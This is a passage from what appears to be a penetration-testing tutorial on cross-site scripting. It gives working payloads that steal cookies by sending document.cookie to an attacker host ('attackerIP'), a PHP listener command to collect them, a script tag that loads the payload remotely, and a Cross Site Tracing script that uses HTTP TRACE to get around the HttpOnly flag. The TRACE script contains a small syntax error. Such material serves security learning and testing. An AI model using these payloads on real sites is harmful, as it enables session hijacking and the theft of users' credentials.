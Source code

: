 ##### Step 2: Exfiltrating cookies

**1.** Beside the index.php, have a lala.js in your php server:

```js
new Image().src='http://attackerIP/index.php?c='+document.cookie
```

Another payload could be:

```js
document.location='http://attackerIP/index.php?c='+document.cookie;
```

**2.** Run your php server:

```bash
sudo php -S 0.0.0.0:80
```

**3.** Now, we can change the URL in the XSS payload we found earlier to use `lala.js`. For instance:

```html
<script src=http://attackerIP/lala.js></script>
```

**4.** You will log the following activity in your php server:

![xss blind](../img/xss_blind_02.png)


### 2. Bypassing the HTTPOnly flag

The  HTTPOnly flag can be enabled with the response header `Set-Cookie`:

```
Set-Cookie: <cookie-name>=<cookie-value>; HttpOnly
```

HTTPOnly forbids javaScript from accessing the cookies, for example, through the `Document.cookie` property.

#### 2.1. Cross Site Tracing

[OWASP Cross Site Tracing reference](https://owasp.org/www-community/attacks/Cross_Site_Tracing)

Technique for bypassing HTTPOnly flag. Since scripting languages are blocked due to the use of HTTPOnly, this technique proposes to use the HTTP TRACE method.

HTTP TRACE method is a method used for debugging, and it echoes back input requests to the user. So, if we send HTTP headers normally inaccessible to Javascript, we will be able to read them.

We will take advantage of the javascript object `XMLHttpRequest`that provides a way to retrieve data from an URL without having to do a full page refresh:

```html
<script> //TRACE Request
	var xmlhttp = new XMLHttpRequest()M
	var url = 'http://victim.site/';
	xmlhttp.withCredentials = true; // Send cookie header
	xmlhttp.open('TRACE', url);

	// Callback to log all response headers
	function hand() { console.log(this.getAllResponseHeaders());}
	xmlhttp.onreadystatechange = hand;

	xmlhttp.send(); // Send the request

</script>
```
